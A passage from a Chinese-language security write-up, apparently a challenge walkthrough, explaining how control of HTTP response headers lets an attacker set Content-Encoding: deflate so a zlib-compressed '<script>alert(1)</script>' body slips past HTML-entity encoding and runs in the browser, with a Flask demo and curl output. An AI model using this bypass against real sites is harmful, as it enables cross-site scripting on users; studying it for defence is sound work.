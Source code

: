 到这里我们虽然可以完全控制响应头了，但是因为quote的内容全部被html实体编码了，所以仅可以部分控制响应体，导致依然没有办法进行xss攻击。很容易想到如果我们可以把内容进行一次编码，然后浏览器在访问的时候会进行自动解码，那么就万事大吉了。很幸运`Content-Encoding`就是来干这个事情的。[https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Encoding](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Encoding)

> Content-Encoding 是一个实体消息首部，用于对特定媒体类型的数据进行压缩。当这个首部出现的时候，它的值表示消息主体进行了何种方式的内容编码转换。这个消息首部用来告知客户端应该怎样解码才能获取在 Content-Type 中标示的媒体类型内容。

例如如下：

```python
from flask import Flask,make_response

import zlib

app = Flask(__name__) 
@app.route('/')  
def hello_world():  
    resp = make_response()
    resp.headers['Content-Encoding'] = 'deflate'
    resp.set_data(zlib.compress(b'<script>alert(1)</script>'))
    resp.headers['Content-Length'] = resp.content_length

    return resp
if __name__ == '__main__':
    app.run(debug=False)
```

用curl请求，看到的是乱码：
```
➜  ~ curl  -v 127.0.0.1:5000
* Rebuilt URL to: 127.0.0.1:5000/
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 5000 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:5000
> User-Agent: curl/7.54.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Encoding: deflate
< Content-Length: 28
< Server: Werkzeug/0.15.2 Python/3.7.0
< Date: Mon, 15 Apr 2019 10:51:26 GMT
<
x��)N.�,(�K�I-*�0Դч
* Closing connection 0
u�%
```
但是浏览器会进行解码，然后弹框。
